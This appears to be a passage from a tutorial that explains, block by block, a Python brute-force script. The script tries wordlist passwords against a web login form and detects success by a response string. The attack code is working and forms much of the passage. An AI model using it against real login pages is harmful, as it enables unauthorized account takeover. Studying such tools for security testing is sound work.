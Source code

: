 ```python
target = args.target    
passwords_file = args.wordlist
needle = "Login successful!"
```

In this section, the script initializes key variables using the arguments parsed earlier. The `target` variable holds the URL of the login page specified by the `-t` argument. The `passwords_file` variable stores the path to the wordlist file provided via the `-w` argument. The `needle` is a string that will be searched in the response to identify a successful login, with a default value of "Login successful!". Depending on the target web application's response, this string may need to be adjusted to fit the specific success message.

```python
if not args.username and not args.usernames:
    print("Error: You must specify either a single username (-u) or a username file (-U).")
    sys.exit(1)
```

This section ensures that the user provides at least one of the required username inputs. It checks whether the `-u` argument (for a single username) or the `-U` argument (for a file of usernames) is supplied. If neither is provided, the script will print an error message and exit, preventing the brute force process from running without the necessary username input. This validation helps avoid unnecessary execution and provides clear guidance to the user.

```python
if args.username:
    usernames = [args.username]
elif args.usernames:
    try:
        with open(args.usernames, "r") as f:
            usernames = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print(f"Error: File '{args.usernames}' not found.")
        sys.exit(1)
```

The script loads the usernames based on the input provided by the user. If a single username is given with the `-u` argument, it is converted into a list for consistency with the other cases. If a file of usernames is provided using the `-U` argument, the script attempts to open and read the file, storing each line as a username (ignoring any blank lines). If the file cannot be found, an error message is displayed, and the script exits. This allows flexibility in testing either a single username or a list from a file.

```python
for username in usernames:
    try:
        with open(passwords_file, "r", encoding="latin-1") as passwords_list:
            for password in passwords_list:
                password = password.strip("\n").encode()
                sys.stdout.write("[X] Attempting user:password -> {}:{}\r".format(username, password.decode()))
                sys.stdout.flush()
                r = requests.post(target, data={"username": username, "password": password})
                if needle.encode() in r.content:
                    sys.stdout.write("\n")
                    sys.stdout.write("\t[>>>>>] Valid password '{}' found for user '{}'!".format(password.decode(), username))
                    sys.exit(0)
```


[^1]: Source: [Python Documentation](https://docs.python.org/3/)